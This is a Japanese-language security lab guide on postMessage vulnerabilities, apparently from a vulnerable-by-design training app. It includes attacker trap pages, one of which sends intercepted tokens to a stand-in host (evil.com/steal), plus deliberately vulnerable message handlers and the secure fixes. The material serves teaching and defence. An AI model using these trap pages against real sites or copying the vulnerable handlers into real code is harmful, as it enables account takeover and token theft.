

# postMessage 脆弱性 — クロスオリジン通信のオリジン検証不備

> `window.postMessage` によるクロスオリジン通信で送信元のオリジンを検証しないことで、攻撃者のサイトから悪意あるメッセージを注入され、データの窃取やページの改ざんが行われる脆弱性を学びます。

---

## 対象ラボ

| 項目 | 内容 |
|------|------|
| **概要** | `message` イベントのハンドラーで `event.origin` を検証せずに受信データを処理するため、攻撃者のサイトから iframe や `window.open` 経由で偽のメッセージを注入できる |
| **攻撃例** | 攻撃者のサイトが `iframe.contentWindow.postMessage('{"action":"updateProfile","email":"evil@attacker.com"}', '*')` で脆弱なページに偽コマンドを送信 |
| **技術スタック** | React (フロントエンド中心) |
| **難易度** | ★★★ 上級 |
| **前提知識** | 同一オリジンポリシー、iframe、`window.postMessage` API |

---

## この脆弱性を理解するための前提

### postMessage API の仕組み

ブラウザの同一オリジンポリシーは、異なるオリジン間のスクリプトによる DOM アクセスを禁止している。しかし、正当な理由でクロスオリジン通信が必要なケースがある（iframe 内の決済フォーム、OAuth ポップアップ、マイクロフロントエンドなど）。`window.postMessage` はこのような場合に安全なクロスオリジン通信を実現するための API。

```typescript
// 送信側: 別ウィンドウにメッセージを送る
// 第2引数の targetOrigin で「どのオリジンに送るか」を指定する
targetWindow.postMessage(
  { action: 'paymentComplete', orderId: '12345' },  // 送信データ
  'https://shop.example.com'                          // 送信先オリジン
);

// 受信側: メッセージを受け取る
window.addEventListener('message', (event) => {
  // event.origin — メッセージの送信元オリジン
  // event.data   — 送信されたデータ
  // event.source — 送信元の window オブジェクト
  console.log(`${event.origin} から受信:`, event.data);
});
```

**正当な利用場面**:

- **iframe 内の決済フォーム**: 親ページと決済プロバイダーの iframe が支払い結果をやり取りする
- **OAuth ポップアップ**: OAuth 認可後にポップアップが親ウィンドウに認可コードを返す
- **マイクロフロントエンド**: 異なるオリジンにホストされた複数のフロントエンドが連携する

`event.origin` は**ブラウザが保証する値**であり、送信側が偽造することはできない。これが postMessage の安全性の根幹を成している。

### どこに脆弱性が生まれるのか

問題は、受信側が `event.origin` を検証せずにメッセージを処理してしまう場合に発生する。開発者が「自分のアプリからしかメッセージは来ないだろう」と思い込み、オリジンチェックを省略すると、攻撃者のサイトからも自由にメッセージを送信できてしまう。

```typescript
// ⚠️ この部分が問題 — event.origin を検証していない
window.addEventListener('message', (event) => {
  // どのオリジンからのメッセージでも無条件に処理してしまう
  const { action, data } = event.data;
  if (action === 'updateProfile') {
    // 攻撃者からの偽メッセージでもプロフィールを更新してしまう
    updateUserProfile(data);
  }
});
```

さらに、送信側が `targetOrigin` に `"*"` を指定すると、メッセージがどのオリジンのウィンドウにも送信され、機密データが攻撃者のウィンドウに漏洩する危険がある。

```typescript
// ⚠️ targetOrigin が "*" — 機密データがどのウィンドウにも送信される
parentWindow.postMessage(
  { token: 'eyJhbGciOiJIUzI1NiJ9...', email: 'user@example.com' },
  '*'  // どのオリジンのウィンドウでも受信可能
);
```

---

## 攻撃の仕組み



### 攻撃のシナリオ

#### シナリオ 1: オリジン検証なし — 偽メッセージの注入

1. **攻撃者** が罠サイトを用意し、脆弱なページを iframe で埋め込む

   脆弱なページが `message` イベントでコマンドを受け付けていることを攻撃者は事前に知っている（JavaScript ソースコードはブラウザの DevTools で誰でも読める）。

   ```html
   <!-- 攻撃者の罠サイト: https://evil.com/trap.html -->
   <iframe id="target" src="https://vulnerable-app.com/settings"></iframe>
   <script>
     const iframe = document.getElementById('target');
     iframe.onload = () => {
       // 脆弱なページに偽のコマンドを送信
       iframe.contentWindow.postMessage(
         { action: 'updateProfile', data: { email: 'evil@attacker.com' } },
         '*'
       );
     };
   </script>
   ```

2. **被害者** が攻撃者の罠サイトにアクセスする

   被害者のブラウザが `https://vulnerable-app.com/settings` を iframe 内に読み込む。被害者はこのアプリにログイン済みのため、Cookie が自動的に送信される。

3. **脆弱なページ** がオリジンを検証せずにメッセージを処理する

   ```typescript
   // 脆弱なページのコード — origin チェックなし
   window.addEventListener('message', async (event) => {
     // event.origin は "https://evil.com" だが、チェックしていない
     const { action, data } = event.data;
     if (action === 'updateProfile') {
       await fetch('/api/profile', {
         method: 'PUT',
         headers: { 'Content-Type': 'application/json' },
         body: JSON.stringify(data),  // 攻撃者が指定したデータ
       });
     }
   });
   ```

   攻撃者のメッセージにより、被害者のメールアドレスが `evil@attacker.com` に変更される。その後、パスワードリセットを行えばアカウントを完全に乗っ取れる。

#### シナリオ 2: targetOrigin が "*" — 機密データの漏洩

1. **攻撃者** がポップアップ経由で脆弱なページを開く

   脆弱なページがメッセージ送信時に `targetOrigin` を `"*"` にしていることを攻撃者は知っている。

   ```html
   <!-- 攻撃者の罠サイト -->
   <script>
     // 脆弱なページをポップアップで開く
     const w = window.open('https://vulnerable-app.com/oauth/callback');
     // 受信ハンドラーで機密データを待ち受ける
     window.addEventListener('message', (event) => {
       // 脆弱なページが "*" で送信するため、攻撃者も受信できる
       fetch('https://evil.com/steal', {
         method: 'POST',
         body: JSON.stringify(event.data),  // トークンやユーザー情報
       });
     });
   </script>
   ```

2. **脆弱なページ** が `targetOrigin: "*"` でトークンを送信する

   ```typescript
   // ⚠️ OAuth コールバックページ — targetOrigin が "*"
   const token = new URLSearchParams(location.search).get('token');
   // 親ウィンドウが攻撃者のサイトでも、"*" なので送信されてしまう
   window.opener.postMessage(
     { type: 'auth', token: token, email: 'user@example.com' },
     '*'  // ⚠️ どのオリジンにも送信
   );
   ```

   認証トークンが攻撃者のサーバーに送信される。

#### シナリオ 3: 受信データを innerHTML に挿入 — DOM-based XSS

1. **攻撃者** が postMessage 経由で HTML ペイロードを送信する

   ```html
   <iframe id="target" src="https://vulnerable-app.com/dashboard"></iframe>
   <script>
     document.getElementById('target').onload = () => {
       document.getElementById('target').contentWindow.postMessage(
         { type: 'notification', html: '' },
         '*'
       );
     };
   </script>
   ```

2. **脆弱なページ** が受信データを `innerHTML` で DOM に挿入する

   ```typescript
   // ⚠️ 受信データを innerHTML で挿入 — DOM-based XSS
   window.addEventListener('message', (event) => {
     if (event.data.type === 'notification') {
       document.getElementById('notification-area')!.innerHTML = event.data.html;
       // 攻撃者の  が実行され、Cookie が窃取される
     }
   });
   ```

### なぜ成功するのか

| 条件 | 説明 |
|------|------|
| `event.origin` 未検証 | 受信ハンドラーがメッセージの送信元オリジンを確認していないため、攻撃者のサイトからのメッセージも正規のメッセージと同様に処理される |
| `targetOrigin: "*"` | 送信先オリジンを制限していないため、攻撃者のウィンドウにも機密データが送信される |
| 受信データの無条件信頼 | メッセージの内容に対する型チェックやサニタイズがなく、`innerHTML` への代入や API 呼び出しにそのまま使用される |
| iframe / popup による埋め込み | `X-Frame-Options` が未設定の場合、攻撃者のサイトから脆弱なページを iframe で埋め込める |

### 被害の範囲

- **機密性**: 認証トークン、セッション情報、個人データが攻撃者に送信される。`targetOrigin: "*"` によるデータ漏洩は被害者が気づきにくい
- **完全性**: 偽のコマンドによるプロフィール変更、設定の改ざん、意図しない操作の実行。DOM-based XSS によるページ内容の書き換え
- **可用性**: XSS を通じたリダイレクトループやページ破壊、アカウントロックアウト

---

## 対策


### 根本原因

受信側が **メッセージの送信元オリジンを検証せず、あらゆるオリジンからのメッセージを信頼してしまう** こと、および送信側が **`targetOrigin` を `"*"` に設定し、意図しない受信者にもデータを送信してしまう** ことが根本原因。postMessage API は `event.origin` と `targetOrigin` という 2 つのセキュリティ機構を提供しているが、開発者がこれらを正しく使用していない。

### 安全な実装

受信側では `event.origin` を厳密に検証し、送信側では `targetOrigin` に具体的なオリジンを指定する。さらに、受信データの型チェックとサニタイズを行う。

```typescript
// ✅ 安全な受信ハンドラー — オリジン検証 + 型チェック + サニタイズ
const TRUSTED_ORIGIN = 'https://payment.example.com';

interface PaymentMessage {
  type: 'paymentResult';
  orderId: string;
  status: 'success' | 'failure';
}

// 受信データの型ガード — 期待する構造かどうかを厳密に検証
function isPaymentMessage(data: unknown): data is PaymentMessage {
  if (typeof data !== 'object' || data === null) return false;
  const d = data as Record<string, unknown>;
  return (
    d.type === 'paymentResult' &&
    typeof d.orderId === 'string' &&
    (d.status === 'success' || d.status === 'failure')
  );
}

window.addEventListener('message', (event) => {
  // ✅ 1. オリジンの厳密な検証 — 信頼するオリジン以外は無視
  if (event.origin !== TRUSTED_ORIGIN) {
    console.warn(`不正なオリジンからのメッセージを拒否: ${event.origin}`);
    return;
  }

  // ✅ 2. 受信データの型チェック — 期待する構造でなければ拒否
  if (!isPaymentMessage(event.data)) {
    console.warn('不正なメッセージ構造を拒否');
    return;
  }

  // ✅ 3. 検証済みのデータのみ安全に処理
  handlePaymentResult(event.data.orderId, event.data.status);
});
```

```typescript
// ✅ 安全な送信 — targetOrigin に具体的なオリジンを指定
parentWindow.postMessage(
  { type: 'auth', token: authToken },
  'https://app.example.com'  // ✅ 特定のオリジンにのみ送信
);
```

**なぜ安全か**: `event.origin` はブラウザが保証する値であり、送信側が偽造することはできない。`TRUSTED_ORIGIN` と一致しないメッセージを即座に拒否することで、攻撃者のサイト（`https://evil.com`）からのメッセージは処理されない。`targetOrigin` に具体的なオリジンを指定することで、ブラウザは受信側ウィンドウのオリジンが一致する場合のみメッセージを配信する。

#### 脆弱 vs 安全: コード比較

**受信側:**

```diff
  window.addEventListener('message', (event) => {
+   // オリジン検証 — 信頼するオリジン以外は無視
+   if (event.origin !== 'https://payment.example.com') return;
+
+   // 型チェック — 期待する構造でなければ拒否
+   if (!isPaymentMessage(event.data)) return;
+
    const { action, data } = event.data;
-   // どのオリジンからでも無条件に処理
-   document.getElementById('output')!.innerHTML = data.html;
+   // 検証済みデータをテキストとして安全に表示
+   document.getElementById('output')!.textContent = data.status;
  });
```

**送信側:**

```diff
  window.opener.postMessage(
    { type: 'auth', token: authToken },
-   '*'
+   'https://app.example.com'
  );
```

受信側では `event.origin` の検証と型チェックを追加し、`innerHTML` の代わりに `textContent` を使用する。送信側では `"*"` を具体的なオリジンに変更する。これにより、攻撃者はメッセージの注入も傍受もできなくなる。

### その他の防御策

| 対策 | 種類 | 説明 |
|------|------|------|
| `event.origin` の厳密な検証 | 根本対策 | 受信ハンドラーの冒頭でオリジンを検証し、信頼できないオリジンからのメッセージを拒否する。最も重要な対策 |
| `targetOrigin` に具体的なオリジンを指定 | 根本対策 | `"*"` を使わず、送信先のオリジンを明示的に指定する。機密データの漏洩を防ぐ |
| 受信データの型チェックとサニタイズ | 多層防御 | TypeScript の型ガードで受信データの構造を検証する。`innerHTML` ではなく `textContent` を使い、DOM-based XSS を防ぐ |
| `X-Frame-Options` / CSP `frame-ancestors` | 多層防御 | iframe による埋め込みを制限し、攻撃者が postMessage の送信元として利用する経路を塞ぐ |
| CSP `script-src` | 検知 | インラインスクリプトの実行を制限し、仮に XSS が成立しても被害を軽減する |

---

## ハンズオン手順

### Step 1: 脆弱バージョンで攻撃を体験

**ゴール**: オリジン検証なしの postMessage ハンドラーに対して、攻撃者のサイトから偽メッセージを注入できることを確認する

1. 開発サーバーを起動する

   ```bash
   cd backend && pnpm dev &
   cd frontend && pnpm dev &
   ```

2. ブラウザで脆弱なページにアクセスする

   ```
   http://localhost:5173/labs/postmessage
   ```

   - ページの「脆弱バージョン」タブを選択する
   - DevTools の Console を開いておく

3. 攻撃を体験する — 画面上の「攻撃シミュレーション」ボタンをクリックする

   攻撃者のサイトを模擬するフレームが、脆弱なページに対して postMessage を送信する。

   ```typescript
   // 攻撃シミュレーション — 偽のメッセージを送信
   targetFrame.contentWindow.postMessage(
     { action: 'updateProfile', data: { email: 'evil@attacker.com' } },
     '*'
   );
   ```

4. 結果を確認する

   - 脆弱なページ上の表示が攻撃者のメッセージ内容に書き換わる
   - DevTools Console に `message` イベントのログが表示される — `event.origin` が攻撃者のオリジンであることを確認
   - **この結果が意味すること**: `event.origin` を検証していないため、任意のオリジンからメッセージを注入できる。実際の攻撃ではプロフィール変更や設定改ざんが行われる

5. DOM-based XSS を試す

   ```typescript
   // innerHTML にHTMLペイロードが注入される
   targetFrame.contentWindow.postMessage(
     { action: 'showNotification', html: '' },
     '*'
   );
   ```

   - `alert("XSS")` が実行されることを確認する
   - `innerHTML` でメッセージ内容を挿入しているため、任意の JavaScript が実行可能

### Step 2: 安全バージョンで防御を確認

**ゴール**: 同じ攻撃がオリジン検証と型チェックにより失敗することを確認する

1. ページの「安全バージョン」タブに切り替える

2. 同じ攻撃を試みる

   - 「攻撃シミュレーション」ボタンをクリックする

3. 結果を確認する

   - ページの内容は変化しない
   - DevTools Console に「不正なオリジンからのメッセージを拒否」のログが表示される
   - `event.origin` のチェックにより、信頼できないオリジンからのメッセージが無視されている

4. コードの差分を確認する

   - `frontend/src/labs/step08-advanced/pages/PostMessage.tsx` の脆弱版と安全版を比較
   - **オリジン検証の有無**、**型ガード関数の存在**、**`innerHTML` vs `textContent`** に注目する

### 確認ポイント

以下を自分の言葉で説明できれば、このラボは完了です:

- [ ] `event.origin` はなぜ信頼できるのか（ブラウザが保証する値であり、送信側が偽造できない理由）
- [ ] `targetOrigin: "*"` が危険な理由は何か（どのウィンドウにもメッセージが届く仕組み）
- [ ] オリジン検証を行っていても `innerHTML` を使うとなぜ危険か（正規オリジンが侵害された場合のリスク）
- [ ] 安全な実装は「なぜ」この攻撃を無効化するのか（`event.origin` チェック + 型ガード + `textContent` の三重の防御）

---

## 実装メモ

| 項目 | パス |
|------|------|
| 設定エンドポイント | `/api/labs/postmessage/config` |
| バックエンド | `backend/src/labs/step08-advanced/postmessage.ts` |
| フロントエンド | `frontend/src/labs/step08-advanced/pages/PostMessage.tsx` |

- このラボはフロントエンド中心の実装。バックエンドは設定情報（信頼するオリジンのリスト等）を返す最小限のエンドポイントのみ
- 脆弱版: `message` イベントハンドラーで `event.origin` を検証せず、受信データを `innerHTML` で DOM に挿入
- 安全版: `event.origin` の厳密な検証 + TypeScript 型ガードによる構造チェック + `textContent` による安全な DOM 更新
- 攻撃シミュレーション: フロントエンド内に「攻撃者のフレーム」を模擬するコンポーネントを用意し、ブラウザ上で postMessage 攻撃を体験可能にする

---

## 現実世界での事例

| 年 | インシデント | 概要 |
|----|-------------|------|
| 2013 | Facebook OAuth | postMessage を使った OAuth フローで `targetOrigin` が `"*"` に設定されており、攻撃者がアクセストークンを傍受可能だった |
| 2020 | Shopify | postMessage ハンドラーの `event.origin` 検証不備により、攻撃者がストア管理画面の機能を不正に操作できる脆弱性がバグバウンティで報告された |
| 2022 | Microsoft Teams | iframe 間の postMessage 通信で送信元オリジンの検証が不十分であり、特定の条件下でアカウント乗っ取りが可能な脆弱性が発見された |

---

## 関連ラボ

| ラボ | 関連性 |
|------|--------|
| [XSS](../step02-injection/xss.md) | postMessage 経由の DOM-based XSS は XSS の一形態。受信データを `innerHTML` に挿入するパターンは Stored/Reflected XSS と同じ根本原因（ユーザー入力がコードとして解釈される）を持つ |
| [クリックジャッキング](../step07-design/clickjacking.md) | 攻撃者が iframe で脆弱なページを埋め込む点が共通。`X-Frame-Options` による iframe 制限は postMessage 攻撃の経路を塞ぐ多層防御としても機能する |
| [CORS 設定不備](../step06-server-side/cors-misconfiguration.md) | どちらもクロスオリジン通信のセキュリティに関する脆弱性。CORS はサーバーサイドの HTTP ヘッダー設定、postMessage はクライアントサイドの API 使用方法の問題 |

---

## 参考資料

- [OWASP - Testing for Web Messaging](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/11-Client-side_Testing/11-Testing_Web_Messaging)
- [CWE-345: Insufficient Verification of Data Authenticity](https://cwe.mitre.org/data/definitions/345.html)
- [MDN - Window: postMessage() method](https://developer.mozilla.org/ja/docs/Web/API/Window/postMessage)
